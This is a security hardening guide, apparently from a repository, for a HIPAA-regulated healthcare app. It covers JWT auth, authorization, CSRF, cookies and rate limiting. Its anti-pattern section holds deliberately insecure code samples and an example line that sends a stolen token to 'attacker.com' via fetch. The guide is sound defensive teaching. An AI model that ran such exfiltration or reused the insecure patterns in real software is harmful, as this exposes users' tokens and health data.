




# Security Hardening (HealthHub supplement)

> Supplements base [Architecture](../../../../documents/engineering/architecture.md) and [Observability](../../../../documents/engineering/observability.md); HealthHub-specific controls for HIPAA data protection. Base rules apply; see `architecture.md` overlay for canonical deltas.

---

## Overview

This document outlines HealthHub's security architecture designed with defense-in-depth principles to protect Protected Health Information (PHI). The system combines multiple security layers to prevent unauthorized PHI access, meet HIPAA Security Rule requirements, and defend against common web vulnerabilities.

**Security Posture**: Production-ready for healthcare applications handling PHI
**HIPAA Compliance**: Addresses §164.312 technical safeguards

---

## Table of Contents

1. [Authentication Architecture](#authentication-architecture)
2. [Authorization Security](#authorization-security)
3. [CSRF Protection Layers](#csrf-protection-layers)
4. [Cookie Security Configuration](#cookie-security-configuration)
5. [Rate Limiting Patterns](#rate-limiting-patterns)
6. [HIPAA Security Rule Compliance](#hipaa-security-rule-compliance)
7. [Security Anti-Patterns](#security-anti-patterns)

---

## Authentication Architecture

### Dual-Token JWT System

HealthHub uses a dual-token authentication system balancing security and usability:



**Token Characteristics:**

| Token Type | Lifetime | Storage | Transport | Purpose |
|------------|----------|---------|-----------|---------|
| Access Token | 15 minutes | Authorization header | Bearer token | API authentication |
| Refresh Token | 7 days | HttpOnly cookie | Cookie (automatic) | Token renewal |

**Location**: `backend/app/auth/jwt.py`

**Security Benefits:**
- Short access token lifetime limits PHI exposure window
- Refresh token in HttpOnly cookie prevents JavaScript access
- Token rotation on refresh prevents token reuse attacks
- Separate token types enable granular security controls

### Token Refresh Flow



**Token Rotation Benefits:**
- Prevents token reuse if intercepted
- Limits impact of stolen refresh token
- Provides audit trail of token refreshes
- Enables token revocation strategy

### JWT Token Structure

**Access Token Payload:**
```python
{
    "user_id": "uuid",
    "email": "patient@example.com",
    "role": "patient",  # patient | doctor | admin
    "token_type": "access",
    "exp": datetime,  # 15 minutes from issue
    "iat": datetime
}
```

**Refresh Token Payload:**
```python
{
    "user_id": "uuid",
    "email": "patient@example.com",
    "role": "patient",
    "token_type": "refresh",
    "exp": datetime,  # 7 days from issue
    "iat": datetime
}
```

**Role-Specific Claims:**
- `patient`: Patient with access to own medical records
- `doctor`: Medical professional with can_prescribe capability
- `admin`: Full system access for administrative functions

### Password Security

**Implementation**: `backend/app/auth/password.py`

**Hashing Algorithm**: bcrypt (OWASP recommended)
```python
import bcrypt

def hash_password(password: str) -> str:
    """Hash password using bcrypt with automatic salting."""
    salt = bcrypt.gensalt(rounds=12)
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return hashed.decode('utf-8')

def verify_password(password: str, hashed: str) -> bool:
    """Verify password against bcrypt hash."""
    return bcrypt.checkpw(
        password.encode('utf-8'),
        hashed.encode('utf-8')
    )
```

**Password Requirements** (OWASP standards):
- Minimum 8 characters
- Maximum 128 characters
- At least one uppercase letter
- At least one lowercase letter
- At least one digit
- At least one special character

**Security Properties:**
- Salted hashes (unique salt per password)
- Computationally expensive (protects against brute force)
- Work factor: 12 rounds (configurable)
- No password storage in logs or responses

---

## Authorization Security

### ADT-Based Authorization Pattern

HealthHub uses Algebraic Data Type (ADT) authorization that makes invalid states unrepresentable.

**AuthorizationState ADT** (see [Authorization System](../product/authorization_system.md)):

```python
@dataclass(frozen=True)
class PatientAuthorized:
    user_id: UUID
    patient_id: UUID
    email: str
    role: Literal["patient"] = "patient"

@dataclass(frozen=True)
class DoctorAuthorized:
    user_id: UUID
    doctor_id: UUID
    email: str
    specialization: str
    can_prescribe: bool  # Capability field
    role: Literal["doctor"] = "doctor"

@dataclass(frozen=True)
class AdminAuthorized:
    user_id: UUID
    email: str
    role: Literal["admin"] = "admin"

@dataclass(frozen=True)
class Unauthorized:
    reason: str
    detail: str | None = None

type AuthorizationState = (
    PatientAuthorized
    | DoctorAuthorized
    | AdminAuthorized
    | Unauthorized
)
```

**Security Benefits:**
- **Type Safety**: Impossible to access patient_id without PatientAuthorized state
- **Exhaustive Matching**: Compiler enforces all cases handled
- **Capability-Based**: can_prescribe embedded in type (no separate lookup)
- **Failure Context**: Unauthorized carries reason for audit logging

### Pattern Matching for Access Control

**GOOD - Exhaustive Pattern Matching:**
```python
from app.domain.authorization import AuthorizationState, PatientAuthorized, DoctorAuthorized, AdminAuthorized, Unauthorized

def check_patient_access(
    auth: AuthorizationState,
    target_patient_id: UUID
) -> bool:
    """Check if user can access patient record."""
    match auth:
        case PatientAuthorized(patient_id=pid) if pid == target_patient_id:
            return True  # Own medical record
        case DoctorAuthorized() | AdminAuthorized():
            return True  # Medical professional or admin
        case PatientAuthorized():
            return False  # Different patient's record
        case Unauthorized():
            return False  # Not authenticated
```

**Security Properties:**
- Patient isolation enforced at compile time
- No accidental cross-patient PHI access
- Audit logging captures Unauthorized reason
- MyPy enforces exhaustive handling

### Patient Isolation Enforcement

**Critical Pattern for HIPAA:**
```python
def authorize_patient_record_access(
    auth: AuthorizationState,
    target_patient_id: UUID
) -> PatientAuthorized | DoctorAuthorized | AdminAuthorized | Unauthorized:
    """Authorize access to patient medical record (HIPAA PHI)."""
    match auth:
        case PatientAuthorized(patient_id=pid) if pid == target_patient_id:
            return auth  # Own record access
        case PatientAuthorized(patient_id=pid):
            # Attempted access to different patient's record
            return Unauthorized(
                reason="Patient isolation violation",
                detail=f"Patient {pid} attempted to access patient {target_patient_id}"
            )
        case DoctorAuthorized() | AdminAuthorized():
            return auth  # Medical professional access
        case Unauthorized():
            return auth  # Already unauthorized
```

**HIPAA Implications:**
- All PHI access must verify patient_id match
- Cross-patient access attempts logged for audit
- Doctor/admin access permitted (established relationship assumed)
- Failed access generates audit event (see [Audit Logging](../product/audit_logging.md))

### Capability-Based Authorization

**Doctor Prescription Authorization:**
```python
def authorize_prescription_creation(
    auth: AuthorizationState
) -> DoctorAuthorized | Unauthorized:
    """Authorize prescription creation (requires can_prescribe capability)."""
    match auth:
        case DoctorAuthorized(can_prescribe=True):
            return auth  # Authorized to prescribe
        case DoctorAuthorized(can_prescribe=False, specialization=spec):
            return Unauthorized(
                reason="Insufficient privileges",
                detail=f"Doctor with specialization '{spec}' cannot prescribe"
            )
        case PatientAuthorized() | AdminAuthorized():
            return Unauthorized(
                reason="Insufficient privileges",
                detail="Only doctors can create prescriptions"
            )
        case Unauthorized():
            return auth  # Already unauthorized
```

**Security Properties:**
- Capability embedded in authorization state (no DB lookup)
- Impossible to prescribe without DoctorAuthorized(can_prescribe=True)
- Type system prevents privilege escalation
- Explicit audit trail for failed attempts

---

## CSRF Protection Layers

### Multi-Layer Protection Strategy

HealthHub uses defense-in-depth for CSRF protection:



**Protection Layers:**

1. **Bearer Token Authentication** (Primary Defense)
   - All state-changing API endpoints require `Authorization: Bearer <token>` header
   - Browsers cannot add custom headers in cross-site requests
   - CSRF attacks cannot include Bearer tokens
   - **Coverage**: All POST, PUT, PATCH, DELETE endpoints

2. **SameSite Cookie Attribute** (Refresh Token)
   - Refresh token cookie uses `SameSite=Strict`
   - Cookie not sent with any cross-site requests
   - Prevents CSRF on `/auth/refresh` endpoint
   - **Coverage**: Token refresh flow only

3. **CORS Origin Validation** (HTTP API)
   - Configured allowed origins in `ALLOWED_ORIGINS` env var
   - Rejects requests from unauthorized domains
   - Preflight requests enforced for cross-origin
   - **Coverage**: All HTTP API endpoints

4. **Origin Header Validation**
   - FastAPI middleware validates Origin header
   - Rejects requests with mismatched origin
   - Fallback for browsers without SameSite support
   - **Coverage**: All API requests

### CORS Configuration

**Environment Variable:**
```bash
# Single origin
CORS_ORIGINS=https://healthhub.example.com

# Multiple origins (comma-separated)
CORS_ORIGINS=https://healthhub.example.com,https://admin.healthhub.example.com

# Development default (if not set)
# http://localhost:3000
```

**FastAPI Configuration** (`backend/app/main.py`):
```python
from fastapi.middleware.cors import CORSMiddleware
from app.config import settings

app.add_middleware(
    CORSMiddleware,
    allow_origins=settings.cors_origins,  # Configured origins only
    allow_credentials=True,  # Required for cookies
    allow_methods=["GET", "POST", "PUT", "DELETE", "PATCH"],
    allow_headers=["Authorization", "Content-Type"],
)
```

**Security Properties:**
- Explicit allowlist (no wildcards)
- Credentials flag required for cookies
- Limited HTTP methods
- No custom headers beyond auth

---

## Cookie Security Configuration

### Refresh Token Cookie

**Location**: `backend/app/auth/jwt.py` (set_refresh_token_cookie)

**Production Configuration:**
```python
from fastapi import Response

def set_refresh_token_cookie(response: Response, token: str) -> None:
    """Set refresh token cookie with security-hardened configuration.

    Security features:
    - httponly=True: Prevents XSS attacks (JavaScript cannot access)
    - secure=True: HTTPS only (enforced in production)
    - samesite="strict": CSRF protection (never sent cross-site)
    - path restricted to refresh endpoint only
    """
    response.set_cookie(
        key="refresh_token",
        value=token,
        httponly=True,      # JavaScript cannot access (XSS protection)
        secure=True,        # HTTPS only (network security)
        samesite="strict",  # Never sent cross-site (CSRF protection)
        max_age=604800,     # 7 days (seconds)
        path="/auth/refresh",  # Only sent to refresh endpoint
    )
```

**Security Attributes:**

| Attribute | Value | Protection Against | HIPAA Relevance |
|-----------|-------|-------------------|----------------|
| HttpOnly | True | XSS - JavaScript cannot read cookie | PHI in token protected from script access |
| Secure | True | Network - Only sent over HTTPS | PHI transmission security (§164.312(e)(1)) |
| SameSite | Strict | CSRF - Never sent cross-site | Prevents unauthorized token use |
| Path | /auth/refresh | Scope - Limits exposure to single endpoint | Minimizes attack surface |

### Cookie Deletion

**On Logout:**
```python
def clear_refresh_token_cookie(response: Response) -> None:
    """Clear refresh token cookie on logout."""
    response.delete_cookie(
        key="refresh_token",
        path="/auth/refresh",  # Must match path set on cookie
        httponly=True,
        secure=True,
        samesite="strict",
    )
```

**Security Properties:**
- Immediate token invalidation
- Path must match original cookie path
- Security attributes must match for deletion
- No token persistence after logout

### Credential Storage Best Practices

**Storage Comparison:**

| Storage Mechanism | XSS Vulnerable | CSRF Vulnerable | Persistence | HealthHub Use Case |
|-------------------|---------------|-----------------|-------------|-------------------|
| Bearer Header | No | N/A | Request only | Access tokens (API auth) |
| HttpOnly Cookie | No | Yes (mitigated) | Configurable | Refresh tokens (renewal) |
| localStorage | YES | No | Permanent | **NEVER use for tokens** |
| sessionStorage | YES | No | Tab only | **NEVER use for tokens** |

**HealthHub Token Storage:**
- ✅ Access Token: Bearer Authorization header (15 min lifetime)
- ✅ Refresh Token: HttpOnly cookie (7 day lifetime)
- ❌ **NEVER** localStorage (vulnerable to XSS)
- ❌ **NEVER** sessionStorage (vulnerable to XSS)

**Rationale:**
- XSS attacks on healthcare portals can expose PHI
- HttpOnly cookies cannot be accessed by JavaScript
- Short-lived access tokens limit exposure window
- Token refresh via secure cookie provides session continuity

---

## Rate Limiting Patterns

### PHI Access Protection

Rate limiting prevents brute force attacks and PHI data scraping.

**Implementation Strategy:**
```python
from fastapi import Depends, HTTPException
from app.infrastructure.rate_limiter import RateLimiter

# Login endpoint rate limiting
@router.post("/auth/login")
async def login(
    credentials: LoginRequest,
    rate_limiter: RateLimiter = Depends(get_rate_limiter(times=5, window=60))
) -> LoginResponse:
    """Login with rate limiting (5 attempts per minute)."""
    # Rate limiter automatically tracks by IP
    # ... login logic
```

**Protected Endpoints:**

| Endpoint Pattern | Rate Limit | Window | Rationale |
|-----------------|-----------|--------|-----------|
| `/auth/login` | 5 requests | 60s | Prevent credential brute force |
| `/auth/register` | 3 requests | 300s | Prevent account spam |
| `/patients/{id}` | 100 requests | 60s | Prevent PHI scraping |
| `/appointments/*` | 100 requests | 60s | Prevent data harvesting |
| `/prescriptions/*` | 50 requests | 60s | Prevent prescription fraud |

### Redis-Based Rate Limiting

**Architecture:**


**Implementation** (`backend/app/infrastructure/rate_limiter.py`):
```python
import redis.asyncio as redis
from fastapi import HTTPException, status

class RateLimiter:
    def __init__(self, redis_client: redis.Redis, times: int, window: int):
        self.redis = redis_client
        self.times = times  # Max requests
        self.window = window  # Time window (seconds)

    async def check_rate_limit(self, key: str) -> None:
        """Check if rate limit exceeded, raise HTTPException if so."""
        counter_key = f"rate_limit:{key}"

        # Increment counter
        count = await self.redis.incr(counter_key)

        # Set expiry on first request
        if count == 1:
            await self.redis.expire(counter_key, self.window)

        # Check limit
        if count > self.times:
            raise HTTPException(
                status_code=status.HTTP_429_TOO_MANY_REQUESTS,
                detail=f"Rate limit exceeded: {self.times} requests per {self.window}s"
            )
```

**Security Properties:**
- Distributed rate limiting (works across multiple backend pods)
- Atomic increment (race condition safe)
- Automatic expiry (no manual cleanup)
- Configurable per-endpoint limits

### PHI-Specific Rate Limiting

**Patient Record Access:**
```python
@router.get("/patients/{patient_id}")
async def get_patient(
    patient_id: UUID,
    auth: PatientAuthorized | DoctorAuthorized | AdminAuthorized = Depends(require_authenticated),
    rate_limiter: RateLimiter = Depends(get_rate_limiter(times=100, window=60))
) -> PatientResponse:
    """Get patient record with rate limiting to prevent PHI scraping."""
    # Rate limit by authenticated user_id (not IP)
    match auth:
        case PatientAuthorized(user_id=uid) | DoctorAuthorized(user_id=uid) | AdminAuthorized(user_id=uid):
            await rate_limiter.check_rate_limit(f"user:{uid}")

    # ... authorization and retrieval logic
```

**HIPAA Implications:**
- Prevents automated PHI harvesting
- Rate limit keyed by user_id (not IP) for authenticated requests
- Failed attempts logged for audit trail
- Supports breach detection requirements (§164.312(b))

---

## HIPAA Security Rule Compliance

HealthHub's security architecture addresses HIPAA Security Rule technical safeguards.

### §164.312(a)(1) Access Control

**Requirement**: Implement technical policies and procedures for electronic information systems that maintain PHI to allow access only to those persons or software programs that have been granted access rights.

**HealthHub Implementation:**

| HIPAA Standard | HealthHub Feature | Location |
|---------------|------------------|----------|
| Unique User Identification | UUID primary keys, JWT user_id claim | `backend/app/auth/jwt.py` |
| Automatic Logoff | Access token 15min expiry | `backend/app/config.py` (jwt_access_token_expire_minutes) |
| Encryption and Decryption | HTTPS/TLS for all PHI transmission | CORS configuration + reverse proxy |

**ADT Authorization Mapping:**
- `PatientAuthorized`: Access to own PHI only
- `DoctorAuthorized`: Access to assigned patients (established relationship)
- `AdminAuthorized`: System-level access (with audit logging)
- `Unauthorized`: Explicit denial with reason (logged for audit)

### §164.312(b) Audit Controls

**Requirement**: Implement hardware, software, and/or procedural mechanisms that record and examine activity in information systems that contain or use PHI.

**HealthHub Implementation:**

| HIPAA Standard | HealthHub Feature | Location |
|---------------|------------------|----------|
| Audit Logging | All PHI access logged with user_id, resource_type, resource_id, outcome | `backend/app/effects/audit.py` |
| Failed Access Logging | Unauthorized attempts logged with reason | [Audit Logging](../product/audit_logging.md) |
| Security Event Logging | Login attempts, token refresh, rate limit exceeded | FastAPI middleware |

**Audit Event Structure:**
```python
@dataclass(frozen=True)
class AuditEvent:
    timestamp: datetime
    user_id: UUID
    action: str  # "view_patient", "create_prescription", "access_lab_result"
    resource_type: str  # "patient", "prescription", "lab_result"
    resource_id: UUID
    outcome: Literal["success", "failure"]
    ip_address: str
    reason: str | None = None  # For failures
```

**Compliance Properties:**
- Every PHI access generates audit event
- Failed authorization attempts logged
- Immutable audit trail (append-only)
- Queryable for breach investigation

### §164.312(c)(1) Integrity

**Requirement**: Implement policies and procedures to protect PHI from improper alteration or destruction.

**HealthHub Implementation:**

| HIPAA Standard | HealthHub Feature | Location |
|---------------|------------------|----------|
| Token Rotation | Refresh token rotated on every use | `backend/app/api/auth.py` (refresh endpoint) |
| CSRF Protection | SameSite cookies + Bearer token auth | See [CSRF Protection Layers](#csrf-protection-layers) |
| Immutable Domain Models | All domain models frozen dataclasses | `backend/app/domain/*.py` |

**Data Integrity Patterns:**
- Frozen dataclasses prevent accidental mutation
- Database transactions ensure atomic updates
- Token rotation prevents replay attacks
- CSRF protection prevents unauthorized modifications

### §164.312(e)(1) Transmission Security

**Requirement**: Implement technical security measures to guard against unauthorized access to PHI that is being transmitted over an electronic communications network.

**HealthHub Implementation:**

| HIPAA Standard | HealthHub Feature | Location |
|---------------|------------------|----------|
| Encryption in Transit | HTTPS/TLS 1.2+ required | Reverse proxy configuration |
| Secure Cookie Transmission | secure=True (HTTPS only) | `backend/app/auth/jwt.py` |
| Origin Validation | CORS + Origin header validation | `backend/app/main.py` (CORS middleware) |

**Transmission Security Properties:**
- All PHI transmitted over HTTPS
- Cookies marked secure (never sent over HTTP)
- Origin validation prevents cross-site PHI leakage
- TLS 1.2+ enforced (TLS 1.0/1.1 disabled)

### HIPAA Compliance Checklist

**Access Control (§164.312(a)(1)):**
- [x] Unique user identification (UUID + JWT)
- [x] Automatic logoff (15min access token expiry)
- [x] Encryption in transit (HTTPS/TLS)
- [x] ADT-based authorization with patient isolation

**Audit Controls (§164.312(b)):**
- [x] All PHI access logged (success and failure)
- [x] Failed authorization attempts captured
- [x] Audit events immutable and queryable
- [x] User_id, action, resource, outcome recorded

**Integrity (§164.312(c)(1)):**
- [x] Token rotation on refresh
- [x] CSRF protection (4 layers)
- [x] Immutable domain models
- [x] Atomic database transactions

**Transmission Security (§164.312(e)(1)):**
- [x] HTTPS/TLS required
- [x] Secure cookies (HTTPS only)
- [x] Origin validation
- [x] TLS 1.2+ enforced

---

## Security Anti-Patterns

### Anti-Pattern 1: String-Based Role Checking

**❌ BAD - String Comparison:**
```python
def authorize_prescription(role: str) -> bool:
    if role == "doctor":  # Typo-prone, no compile-time safety
        return True
    return False

# Problems:
# - Typos not caught: role == "docter" (wrong spelling)
# - No exhaustive matching enforcement
# - Cannot access doctor_id or can_prescribe
# - No audit trail for failure reason
```

**✅ GOOD - ADT Pattern Matching:**
```python
def authorize_prescription(
    auth: AuthorizationState
) -> DoctorAuthorized | Unauthorized:
    match auth:
        case DoctorAuthorized(can_prescribe=True):
            return auth  # Type-safe, has doctor_id and can_prescribe
        case DoctorAuthorized(can_prescribe=False):
            return Unauthorized(reason="Doctor cannot prescribe")
        case PatientAuthorized() | AdminAuthorized():
            return Unauthorized(reason="Only doctors can prescribe")
        case Unauthorized():
            return auth
```

### Anti-Pattern 2: Token in localStorage

**❌ BAD - localStorage Storage:**
```typescript
// Frontend code - NEVER DO THIS
localStorage.setItem('access_token', token);  // XSS vulnerable!

// Any XSS attack can steal token:
const stolen = localStorage.getItem('access_token');
fetch('https://attacker.com', { body: stolen });
```

**✅ GOOD - Bearer Header Only:**
```python
# Backend code - access token from Authorization header only
from fastapi import Header

@router.get("/patients/{patient_id}")
async def get_patient(
    patient_id: UUID,
    authorization: str = Header(...),  # Required header
) -> PatientResponse:
    # Extract Bearer token from header
    token = authorization.replace("Bearer ", "")
    # ... validation
```

### Anti-Pattern 3: Missing Origin Validation

**❌ BAD - No Origin Check:**
```python
# Allows WebSocket connections from any domain
@app.websocket("/ws")
async def websocket_endpoint(websocket: WebSocket):
    await websocket.accept()  # No origin validation!
    # ... PHI transmitted over insecure connection
```

**✅ GOOD - Origin Validation:**
```python
from fastapi import WebSocket, status
from app.config import settings

@app.websocket("/ws")
async def websocket_endpoint(websocket: WebSocket):
    # Validate Origin header
    origin = websocket.headers.get("origin")
    if origin not in settings.cors_origins:
        await websocket.close(code=status.WS_1008_POLICY_VIOLATION)
        return

    await websocket.accept()
    # ... secure PHI transmission
```

### Anti-Pattern 4: No Rate Limiting

**❌ BAD - Unlimited Requests:**
```python
@router.post("/auth/login")
async def login(credentials: LoginRequest) -> LoginResponse:
    # No rate limiting - allows brute force attacks
    # Attacker can try millions of passwords
    # ... login logic
```

**✅ GOOD - Rate Limited:**
```python
from app.infrastructure.rate_limiter import RateLimiter, get_rate_limiter

@router.post("/auth/login")
async def login(
    credentials: LoginRequest,
    rate_limiter: RateLimiter = Depends(get_rate_limiter(times=5, window=60))
) -> LoginResponse:
    # Max 5 login attempts per minute
    await rate_limiter.check_rate_limit(f"login:{credentials.email}")
    # ... login logic
```

### Anti-Pattern 5: Weak Cookie Configuration

**❌ BAD - Insecure Cookie:**
```python
response.set_cookie(
    key="refresh_token",
    value=token,
    httponly=False,  # JavaScript can access! XSS vulnerability
    secure=False,    # Sent over HTTP! Network sniffing risk
    samesite="none", # Sent cross-site! CSRF vulnerability
)
```

**✅ GOOD - Security-Hardened Cookie:**
```python
response.set_cookie(
    key="refresh_token",
    value=token,
    httponly=True,      # XSS protection
    secure=True,        # HTTPS only
    samesite="strict",  # CSRF protection
    path="/auth/refresh",  # Scope limitation
)
```

---

## Related Documentation

**Best Practices:**
- [Authorization Patterns](authorization_patterns.md) - ADT authorization implementation
- [Monitoring & Alerting](monitoring_and_alerting.md) - Security metrics and alerts

**Product Features:**
- [Authorization System](../product/authorization_system.md) - ADT definitions and architecture
- [Authentication](../product/authentication.md) - JWT implementation details
- [Audit Logging](../product/audit_logging.md) - HIPAA audit trail

**Domain Knowledge:**
- [HIPAA Compliance](../domain/hipaa_compliance.md) - Healthcare regulatory requirements

---

**Last Updated**: 2025-11-27
**Supersedes**: none
**Maintainer**: HealthHub Security Team
**Document Status**: Production-Ready for Healthcare Applications  
**Referenced by**: README.md, architecture.md
